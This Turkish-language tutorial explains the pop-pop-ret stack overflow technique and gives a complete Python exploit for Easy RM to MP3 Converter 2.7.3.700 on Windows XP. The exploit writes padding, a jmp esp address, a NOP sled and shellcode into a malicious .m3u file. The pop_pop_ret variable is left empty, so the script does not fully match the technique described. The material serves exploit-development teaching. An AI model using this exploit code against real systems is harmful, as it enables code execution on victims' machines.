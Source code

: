 ## `pop ret`

Bu tekniği nasıl anlatabilirim diye düşünürken gene corelan abimizin güzel bir çizimini gördüm :D

![pop-pop-ret](img/0x02/1.png)

Bu yöntemde gene EIP 'ye kadar olan alanımızı dolduruyoruz. Daha sonra EIP üzerine tekniğin adından da anlaşıldığı üzere pop-pop-ret komutlarını giriyoruz. Peki bu komutlar ne yapıyor ?

Mesela `pop ebx, pop eax, ret` diye bir komutumuz olsun. (Hatırlayacak olursanız `pop` komutu  stack içerisinden bir veri çıkarmak için kullanılır.) Burda `pop ebx, pop eax` dediğimiz zaman stack'e en son gönderilmiş 2 değeri sırasıyla bu registerlarımıza yerleştirecektir. Daha sonra gelen `ret` komutu ise stackde bulunan son adresi/komutu çalıştıracaktır. Bizim için önemli olan kısım `ret` komutunun shellcode'umuza gidecek birşeyler yapması. Yani ebx, eax registerlarına bir değer yüklemek bizim işimize yaramayacağı için bunlara yan etki diyoruz.

`NOT:` Stack'in en sonundan kasıt ESP'nin o an gösterdiği konum gibi düşünebiliriz

Bu yan etkilerden kurtulmak içinde `pop ebx, eax` komutumuzdan sonra bu registerlara rastgele birer değer yerleştirmek için 8 byte'lık bir karakter giriyoruz. Yukardaki resme bakacak olursanız eğer EIP registerından sonra yazmış olduğu 8 tane NOP karakteri ebx, eax üzerine yazılacak. Daha sonra ret komutu çalıştığında `jmp esp` komutunu başarıyla çalıştıracak böylece shellcode'umuz çalışmış olacaktır.

Hadi bir de bu tekniği kullanarak kendimiz bir exploit yazalım... Önceki yazıdan zaten `EIP`'ye yazmak için kaç karaktere ihtiyacımız olduğunu bulmuştuk. Hatta `jmp esp` işlemini gerçekleştiren bir adreste bulmuştuk.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
jmp_esp = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pop_pop_ret = b""
nop = b"\x90"*25
pre_esp = b"JUNK"

exploit = padding + pop_pop_ret + pre_esp + b"\x90"*8 + jmp_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
```